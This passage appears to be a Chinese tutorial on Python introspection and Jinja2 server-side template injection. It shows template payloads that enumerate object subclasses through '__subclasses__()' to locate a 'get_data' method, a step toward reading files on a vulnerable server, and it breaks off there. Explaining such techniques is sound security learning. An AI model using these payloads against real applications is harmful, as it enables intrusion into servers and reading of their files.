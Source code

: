 	使用`dir()`函数列出类的所有属性和方法：

	python

	复制

	```
	print(dir(zipimporter))
	```

	输出结果可能类似于：

	python

	复制

	```
	['__class__', '__delattr__', '__dict__', '__dir__', ..., 'get_data', ...]
	```

	如果`get_data`在列表中，说明该类有`get_data`方法。

	 **步骤 3：查看方法的详细信息**

	使用`help()`函数查看方法的详细信息：

	python

	复制

	```
	help(zipimporter.get_data)
	```

	输出结果会显示方法的签名和功能描述。

	------

	3. **动态查找`get_data`方法**

	在SSTI漏洞利用中，可以通过动态查找的方式确定某个类是否有`get_data`方法。

	- **步骤 1：获取所有子类**

	通过`subclasses`获取所有继承自`object`的子类：

	python

	复制

	```
	{{ ''.__class__.__base__.__subclasses__() }}
	```

	- **步骤 2：遍历子类并检查方法**

	通过遍历子类列表，检查每个类是否有`get_data`方法。例如：

	python

	复制

	```
	{% for subclass in ''.__class__.__base__.__subclasses__() %}
	  {% if 'get_data' in subclass.__dict__ %}
	    {{ subclass }}
	  {% endif %}
	{% endfor %}
	```
